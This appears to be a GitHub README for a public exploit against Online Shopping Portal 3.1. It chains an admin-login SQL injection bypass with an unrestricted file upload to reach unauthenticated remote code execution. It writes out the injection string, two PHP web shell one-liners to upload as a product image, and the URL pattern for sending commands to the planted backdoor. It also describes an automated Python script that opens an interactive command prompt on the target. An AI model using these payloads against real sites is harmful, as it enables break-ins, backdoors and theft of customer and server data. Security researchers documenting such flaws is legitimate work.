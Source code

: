 # Online Shopping Portal 3.1 - Remote Code Execution (Unauthenticated)

Date: 17.07.2021\
Exploit Author: D3duct1V\
Original Exploit Author: Tagoletta (Tağmaç)\
Original EDB-ID: 50029\
Software Link: https://phpgurukul.com/shopping-portal-free-download/ \
Version: v1.0\
Tested on: Windows

---
# Manual Exploit Details

The exploit utilizes multiple vulnerabilities first bypasses authentication then allows for file php file upload. 

## Authentication Bypass

Navagate to the Admin login page: `http://<site>/shopping/admin` \
* Username: `'OR 1=1'--` \
* Password: whatever
  
## File upload vulnerability

After bypassing the authentication navagate to the "Add a new product" \
Here insert whatever data into the fields until the picture. \
The image file should be a php file with the command execution such the following:
  1. `<?php $exe = shell_exec($_REQUEST['cmd']); echo $exe; ?>`
  2. `<?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd = ($_GET['cmd']); system($cmd); echo '</pre>'; die; } ?>`

## Interacting with the backdoor

Search for the newly uploaded "product" and locate the image URL. \
Then use curl to interact with the backdoor: `http://<site>/shopping/admin/productimages/1/<image>.php?cmd=hostname` 

# Automated attack

Running the python script found within this repo uses Python 3 and needs the requests package \
The script can be started `# python3 script.py -u <target URL minus /shopping>` 

The script will bypass the authentication upload a backdoor with a product name and image name. \
It will then find the backdoor and attempt to connect to and run a current directory echo command. \
Once successful will drop into a interactive command prompt, this will run system commands but not a full shell. 

# Metasploit module

Coming.


